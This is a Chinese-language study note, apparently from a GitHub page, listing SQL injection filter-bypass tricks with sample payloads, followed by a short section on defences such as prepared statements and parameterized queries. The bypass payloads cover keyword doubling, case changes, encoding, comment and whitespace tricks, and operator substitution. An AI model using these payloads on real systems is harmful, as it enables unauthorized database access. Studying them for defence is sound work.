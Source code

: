 1. 应对简单的非迭代的将select、or等关键字替换为空字符串的防御
```sql
seselectlect from 、where username='x' OorR 1=1
```
2. 应对简单的区分大小写的关键字匹配，比如php中preg_match函数没有加/i参数
```sql
SelecT，Or
```
3. 编码绕过
        * ASCII

admin可以用CHAR(97)+char(100)+char(109)+char(105)+char(110)代替,select * from admin where username=(CHAR(97)+char(100)+char(109)+char(105)+char(11 0))

        * 16进制

extractvalue(0x3C613E61646D696E3C2F613E,0x2f61)

        * unicode编码

  单引号——%u0027 、%u02b9、%u02bc、%u02c8、%u2032、%uff07

        * URL编码

or 1=1——%6f%72%20%31%3d%31

4. 特殊字符绕过
        * 空格被限制：/**/、%a0、%0a、%0d、%09、tab....
        * 内联注释：select 1 from /*!admin*/ /*!union*/ select 2,
        * MYSQL对%00不会截断：se%00lect
        * 单一%号，在asp+iis中会被忽略：sel%ect
        * ``mysql反引号之间的会被当做注释内容
5. 其他绕过方式
        * Or   →  ||、and  → &&
        * 空格被限制：select(username)from(admin)
        * 科学计数法绕过：where username=1e1union select
        * =、<、>被限制：where id in (1,2)、where id between 1 and 3、like
        * access中使用dlookup绕过select from被限制：(user=12',info=dlookup('[user]','userinfo','[id]=1')%00)
# 13. SQL注入防御

1. **（简单又有效的方法）PreparedStatement**

采用预编译语句集，它内置了处理SQL注入的能力，只要使用它的setXXX方法传值即可。

好处：

* 代码的可读性和可维护性。
* PreparedStatement尽最大可能提高性能。
* 最重要的一点是极大地提高了安全性。

原理：

sql注入只对sql语句的准备(编译)过程有破坏作用，而PreparedStatement已经准备好了,执行阶段只是把输入串作为数据处理,而不再对sql语句进行解析,准备,因此也就避免了sql注入问题。

2. **关键字及特殊字符过滤**

对用户输入进行关键字匹配及过滤。

3. **使用参数化查询**

避免将参数与SQL语句直接拼接。


